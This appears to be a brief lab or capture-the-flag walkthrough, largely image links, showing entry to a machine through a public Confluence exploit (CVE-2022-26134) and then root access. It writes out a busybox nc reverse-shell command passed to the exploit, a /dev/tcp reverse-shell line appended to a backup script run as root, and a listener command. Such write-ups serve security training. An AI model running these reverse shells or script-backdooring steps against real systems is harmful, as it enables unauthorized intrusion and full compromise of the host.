






Using this [exploit](https://github.com/hev0x/CVE-2022-26134)
```
python3 exploit.py -u http://192.168.241.41:8090/ -c 'busybox nc 192.168.45.166 8090 -e bash'
```

We get a shell

Running pspy:




We can write to it:

```
echo 'sh -i >& /dev/tcp/192.168.45.166/4444 0>&1' >> log-backup.sh
```

Now listening on our kali machine:
```
sudo rlwrap -nlvp 4444
```

We get a shell as root.(Using penelope in picture).

